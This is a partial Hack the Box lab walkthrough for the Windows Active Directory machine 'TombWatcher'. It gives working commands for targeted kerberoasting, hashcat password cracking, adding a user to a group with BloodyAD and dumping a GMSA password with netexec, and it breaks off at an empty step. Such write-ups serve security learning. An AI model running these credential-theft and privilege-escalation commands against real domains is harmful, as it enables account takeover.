 # TombWatcher

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan
![image](https://github.com/user-attachments/assets/38c052d5-4737-4dd6-a5ab-eddd228b28da)

2. With Henry's credentials, enumerate network using Bloodhound. Found high-level path to machine
![image](https://github.com/user-attachments/assets/acff890c-ed2b-45b7-a016-f0f7f93aebef)

3. With Henry's credentials, do a targeted kerberoast attack on Alfred
`targetedKerberoast.py -v -d tombwatcher.htb -u henry -p H3nry_987TGV!`

4. We crack the hash using hashcat and we get Alfred's password: basketball
`hashcat -m 13100 hash.txt /usr/share/wordlist/rockyou.txt`
![image](https://github.com/user-attachments/assets/60b15e59-d3fe-4e3a-b44e-e668b79b5e84)

5. Add Alfred to Infrastructure group using BloodyAD
`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.3 -d TOMBWATCHER.HTB -u ALFRED -p basketball add groupMember INFRASTRUCTURE ALFRED`

6. Get GMSA password using netexec
`nxc ldap 10.129.47.3 -u alfred -p basketball --gmsa`
![image](https://github.com/user-attachments/assets/cbdf43c4-6647-4fa9-a0a3-e2b0588ebf90)

7. 



